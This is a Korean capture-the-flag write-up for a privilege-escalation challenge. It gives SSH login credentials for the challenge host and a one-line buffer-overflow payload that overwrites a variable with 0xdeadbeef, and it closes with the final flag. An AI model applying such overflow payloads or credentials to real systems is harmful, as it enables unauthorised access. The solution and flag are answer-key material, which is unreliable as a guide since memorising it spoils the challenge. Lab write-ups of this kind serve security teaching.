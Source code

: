 # 문제 27 - 권한상승 Challenge Solution

## 문제 설명
SSH를 통해 question27 계정으로 접속한 후, 버퍼 오버플로우 취약점을 이용하여 권한을 상승시키고 플래그를 찾는 문제입니다.

## 풀이 과정
1. SSH 접속
   - 호스트: ip.firewall-flame.kro.kr
   - 포트: 2226
   - 계정: question27
   - 비밀번호: question27pass

2. 코드 분석 및 실행
   - question27.c 파일 분석
   - gcc로 컴파일
   - 버퍼 오버플로우를 통해 val 값을 0xdeadbeef로 변경

3. 권한 상승 실행
   ```bash
   (echo -e "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde"; cat) | ./question27
   ```

4. 플래그 확인
   - question27flag 디렉토리에서 플래그 파일 확인

## 사용된 기술
- 버퍼 오버플로우
- 리틀 엔디안 메모리 구조
- 권한 상승 (Privilege Escalation)

## 최종 플래그
```
flag{questionChallenges27flag}